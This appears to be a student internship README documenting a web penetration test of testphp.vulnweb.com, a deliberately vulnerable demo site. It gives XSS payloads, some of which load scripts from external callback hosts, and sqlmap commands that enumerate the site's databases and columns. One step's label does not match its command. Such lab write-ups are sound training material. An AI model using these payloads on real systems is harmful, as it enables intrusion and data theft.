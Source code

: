 # CODTECH-Task2


# WEB APPLICATION PENETRATION TESTING
# Personal information

* Name : Patel Mihir

* Company : CODTECH IT SOLUTIONS PVT.LTD

* ID : CT08DAB

* Domain : Cyber Security & Ethical Hacking

* Duration: 20th Dec 2024 To 20th Jan 2025

* Mentor : Neela Santhosh kumar

# Overview

* Web Application Penetration Testing involves identifying and exploiting security vulnerabilities in web applications to ensure they are secure against potential attacks. This process focuses on vulnerabilities like SQL injection, cross-site scripting (XSS), and insecure authentication mechanisms.

# objective

1. Identify vulnerabilities
2. Exploit weaknesses to understand potential attacks
3. Recommend remediation to enhance security

# Tools used in web application Testing

- sqlmap
- burpsuite
- nmap
- nikto
- dirb
- owasp zap
- Metasploit Framework
- nessus etc.

# focus vulnerabilities

- cross site scripting (XSS)
- SQL injection
- insecure authentication
- open redirect etc.

# Performed Task
# Details of site where we performed the web application Testing

- Site Name : http://testphp.vulnweb.com
- IP address : 44.228.249.3
- Web server : HTTPServer[nginx/1.19.0]
- technology used : 1. PHP[5.6.40-38+ubuntu20.04.1+deb.sury.org+1] , 2. Script[text/JavaScript]
- Port : 80 [http] open

# Performed Testing on testphp.vulnweb.com

# 1. XSS Vulnerability

step 1 : Now first open the site and write xss payload on serachbar.

    <script>alert("XSS vulnerability found")</script>  
<br> 

    <script>alert(1)</script>    
<br> 

    <script>alert(document.domain.concat("\n").concat(window.origin))</script>    
<br> 

    <img src=x onerror=alert('XSS');>    
<br>  

    "><script src="https://js.rip/<custom.name>"></script>

    "><script src=//<custom.subdomain>.xss.ht></script> 

    <script>$.getScript("//<custom.subdomain>.xss.ht")</script>     

![image](https://github.com/user-attachments/assets/3196a105-0b45-4963-9c20-964b324cb7e7)

![image](https://github.com/user-attachments/assets/52485633-8a3b-4ff2-b6ca-455f0804bc6c)

![image](https://github.com/user-attachments/assets/edee616c-72a9-4a6a-a87c-cdcf1d43a1e8)

![image](https://github.com/user-attachments/assets/7a17a8b9-9223-458f-808d-fc390f367078)

![image](https://github.com/user-attachments/assets/a5345045-a1b2-43e3-8e66-3bf25e328491)

![image](https://github.com/user-attachments/assets/9cf9efb3-c86c-41a2-91a9-328191760fa5)

![image](https://github.com/user-attachments/assets/604a7f82-1248-4790-a447-d610428a1a0f)


# 2. Sql injection

![image](https://github.com/user-attachments/assets/15ec2865-08b6-45b5-9040-0d5aded164d7)

we use payload in url and it shows sql error
![image](https://github.com/user-attachments/assets/3a5b5c1a-ddaf-49b6-bc5f-8dd2e4be2483)

![image](https://github.com/user-attachments/assets/ca73eda4-9ef8-40b8-8905-5d8e303efc3f)

- Step 2 : copy The given url.

        http://testphp.vulnweb.com/listproducts.php?cat=1
  <br> 
- Step 3 : open the kali linux terminal.
- Now write the given command for perform SQL injection.

- here -u refers for URL & --dbs for database.

        sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs

![image](https://github.com/user-attachments/assets/3da4323e-77d5-4523-9bdf-5ba7c1a26246)

- Now you see that we got a two databases. first is acuart and second is information_schema.

- Now we go to the inner in acuart database.

- Step 4 : Now follow this commnd for find columns in acuart database.

        sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --columns


![image](https://github.com/user-attachments/assets/76aa812d-5f24-43fb-b485-bc0e702c659d)

![image](https://github.com/user-attachments/assets/e671b246-b914-41ed-a008-055e9905e180)

![image](https://github.com/user-attachments/assets/b6c52111-9168-4915-bab8-b9f677de7f7b)

- Now you see we got columns of databases.

- step 5 : Retrieve data from the pass column using the following command.

        sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables
![image](https://github.com/user-attachments/assets/7dd547da-39aa-491d-934a-a02722d55e1b)

